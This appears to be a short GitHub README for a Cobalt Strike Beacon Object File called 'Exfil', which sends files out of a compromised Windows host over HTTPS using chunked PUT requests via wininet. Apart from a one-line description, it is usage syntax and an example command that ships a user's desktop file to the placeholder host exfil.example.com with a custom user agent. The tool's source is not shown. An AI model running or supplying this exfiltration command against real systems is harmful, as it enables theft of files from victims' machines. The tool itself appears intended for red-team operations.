 # Exfil BOF 
CS BOF used to exfil data over HTTPS via PUT request using wininet and chunking.  

## BOF Usage
```
Usage: Exfil --File <filepath> --Site exfil.example.com --URI /exfil/file.txt < --UserAgent CustomString > 
Exfil Example: 
   Exfil --File C:\Users\Test\Desktop\important.txt --Site exfil.example.com --URI /exfil/path/customfilename.txt --UserAgent Exfil-Test 
Exfil Options: 
    --File, path to file for exfil 
    --Site, the server to perform the PUT request to  
    --URI, the path on the server to perform the PUT request to 
    --UserAgent, Optional useragent string to add to request 
```
